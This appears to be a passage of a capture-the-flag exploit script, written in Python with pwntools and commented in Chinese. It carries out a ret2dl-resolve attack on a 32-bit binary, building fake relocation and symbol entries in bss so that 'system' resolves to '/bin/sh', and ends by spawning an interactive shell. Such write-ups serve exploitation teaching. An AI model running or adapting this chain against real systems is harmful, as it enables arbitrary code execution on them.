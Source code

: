 ```
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

rop2 = ROP('./pwn')
#伪造一个虚假的dynsym表项的地址
alarm_got = elf.got['alarm']
fake_dynsym_addr = control_base + 36
align = 0x10 - ((fake_dynsym_addr - dynsym) &amp; 0xf)
fake_dynsym_addr += align
# 这里要对齐16字节,要不然函数解析的时候会出错,

index_sym = (fake_dynsym_addr - dynsym) / 0x10
rel_r_info = index_sym &lt;&lt; 8 | 0x7
fake_rel = p32(alarm_got)+p32(rel_r_info)  # 伪造的rel结构

st_name= fake_dynsym_addr+0x10-dynstr
# 取fake_dynsym_addr+0x10 作为'system\x00'的地址,求出偏移付给st_name
# 伪造.syndym表的表项
fake_elf32_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

rel_plt_offset = control_base + 24 - rel_plt
# 这里就是我们构造一个很大offset然后让他指向我们的bss段

binsh = '/bin/sh'
# 填充结构
padd = 'B'*4
# 下面就是往control_base(bss+0x800)写入fake_dynsym表
# linkmap
rop2.raw(plt0) # 0
# offset
rop2.raw(rel_plt_offset) # 4
# ret
rop2.raw(padd) #8
# binsh位置
rop2.raw(control_base+90) #12
rop2.raw(padd) #16
rop2.raw(padd) #20
rop2.raw(fake_rel) # 24
paddoffset = 12
rop2.raw('B'* paddoffset) # 32
rop2.raw(fake_elf32_sym) # 44
# sizeof(fake_dynsym_addr)=0x10 所以下面那个就是system符号
rop2.raw('system\x00') # 60
print(len(rop2.chain()))
rop2.raw('B'*(90 - len(rop2.chain())))
rop2.raw(binsh+'\x00')
rop2.raw('B'*(100 - len(rop2.chain())))
log.success("bss:" + str(hex(addr_bss)))
log.success("control_base:" + str(hex(control_base)))
log.success("align:" + str(hex(align)))
log.success("fake_dynsym_addr - dynsym:" + str(hex(fake_dynsym_addr - dynsym)))
log.success("fake_dynsym_addr:" + str(hex(fake_dynsym_addr)))
log.success("binsh:" + str(hex(control_base+82)))
io.sendline(rop2.chain())
io.interactive()
```
